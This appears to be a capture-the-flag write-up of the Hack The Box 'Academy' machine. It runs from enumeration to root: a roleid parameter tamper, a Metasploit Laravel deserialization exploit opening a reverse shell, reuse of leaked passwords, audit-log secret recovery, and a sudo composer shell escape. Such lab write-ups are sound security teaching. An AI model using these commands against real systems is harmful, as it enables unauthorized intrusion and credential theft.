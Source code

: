 ```yaml
---
layout: post
title:  "Hack The Box - Academy Writeup"
image: 
  path: /assets/img/htb/HTB-Academy/Header.png
date:   2021-02-27 06:00:00
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  

Academy is an Easy level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working heavily off of existing CVEs, against a realistic environment.  
![Statistics](/assets/img/htb/HTB-Academy/Statistics.png)

## Information Gathering

### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,33060 -sC -sV -oA Extracts/Academy 10.10.10.215`  
![Nmap](/assets/img/htb/HTB-Academy/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be an simple website on Apache v2.4.41.
* **Port 33060 - MYSQLX**: MySQL is a freely available open source Relational Database Management System. The X Protocol found here is supported by MySQL Shell, MySQL Connectors, and MySQL Router.

We'll also want to add Academy.htb to our hosts file.

### Academy Site
Navigating to the Academy site on port 80 reveals a very basic landing page and two links to Login.php and Register.php. We can attempt to enumerate additional pages using `gobuster` and a wordlist of commonly used resources.  
`>> gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t 100`  
![Gobuster](/assets/img/htb/HTB-Academy/Recon_Gobuster.png)  

The most promising result of the Gobuster scan is the discovery of an administrative area. Unfortunately, it appears to be behind a login. Let's move on to registering an account and see what we can find once we're authenticated.  
![Register](/assets/img/htb/HTB-Academy/Recon_Register.png)  

Interesting. Capturing the registration request with our `Burpsuite` proxy reveals that in addition to our username and password, there's a `roleid` defaulting to 0. It's possible this flag could differentiate a normal user from an admin, let's change that to a 1?  
![Admin](/assets/img/htb/HTB-Academy/Recon_Admin.png)  

Looks like we were right about the `roleid` and successfully created our own administrative account! Logging into the /admin.php page reveals some usernames (`cry0l1t3` and `mrb3n`), as well as another subdomain `dev-staging-01.academy.htb`. Let's add that to our host file and go there next.

### Dev-Staging-01
Navigating to the dev-staging area, we're shown a dashboard with a large amount of system configuration and application information. There's a lot to dig through, but we should be able to find something interesting to work with.  
![Admin](/assets/img/htb/HTB-Academy/Recon_DevStage.png)

## Foothold
[Laravel](https://laravel.com/) is a framework for building web applications in PHP. Searching Exploit.db leads us to the following [metasploit module](https://www.exploit-db.com/exploits/47129), for a deserialization attack leveraging the App_Key and gaining remote code execution. Based on the configuration findings in our Information Gathering stage, we should have all the pieces needed to make this work.  
```
>> msfconsole
>> use exploit/unix/http/laravel_token_unserialize_exec
>> set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
>> set RHOSTS academy.htb
>> set VHOST dev-staging-01.academy.htb
>> set LHOST tun0
```
![Reverse Shell](/assets/img/htb/HTB-Academy/Foothold_MSFConsole.png)  

### Upgrading our Shell
The initial shell we've got is clunky and not very easy to use. Let's upgrade it with the following commands:  
`>> python3 -c "import pty; pty.spawn('/bin/bash')"`  
`>> export TERM=xterm`

### Looking Around the Box
We appear to be connected as the www-data user, which doesnt have access to the user.txt flag. By checking through the users in the `/home` directory, we can see the flag belongs to `cry0l1t3`, an admin of the site.

## Lateral Movement 1
When we first landed in the box, we found ourself in the `/var/www/html/htb-academy-dev-01/public` directory. Digging around, we eventually find a hidden `.env` file containing much of the same information we already noted in the website. However, by looking in the equivalent file from the `/var/www/html/academy` directory, we discover a few changes; The most important of which is that the database password has been changed to `mySup3rP4s5w0rd!!`.

When users are asked to create a new password for something, it's very common for them to reuse a password from somewhere else. It's familiar to them, and easier to remember. Keeping that in mind, we attempt to authenticate with each of the users we discovered in the `/home` directory, successfully authenticating with our flag holder `cry0l1t3`.  
`>> ssh cry0l1t3@10.10.10.215`  
`>> mySup3rP4s5w0rd!!`

### User Flag
![User Flag](/assets/img/htb/HTB-Academy/User_Flag.png)  

## Lateral Movement 2
With our new user access we can continue to look around the box, checking areas we may not have had access to before. Whether running an automated enumeration script, or by digging through the box manually, we can eventually be led to system logs with more valuable secrets to use.  
`>> ausearch -c su`  
![Logs](/assets/img/htb/HTB-Academy/Lateral2_Logs.png)  

The data we found is currently in hex format, but decoding it reveals the text: `mrb3n_Ac@d3my!`. Lets see if it works for the mrb3n account:  
`>> su mrb3n`  
`>> mrb3n_Ac@d3my!`

## Privilege Escalation
One of the first enumeration commands to run as a new user is `sudo -l`. This allows us to list out the priviledged commands we can run, as long as we have the user's password.  
`>> sudo -l`  
`>> mrb3n_Ac@d3my!`  
![Sudo](/assets/img/htb/HTB-Academy/PrivEsc_Sudo.png)  

Referencing the [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) page for Composer, we're shown the following escilation steps:  
`>> TF=$(mktemp -d)`  
`>> echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json`  
`>> sudo composer --working-dir=$TF run-script x`  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Academy/Root_Flag.png)  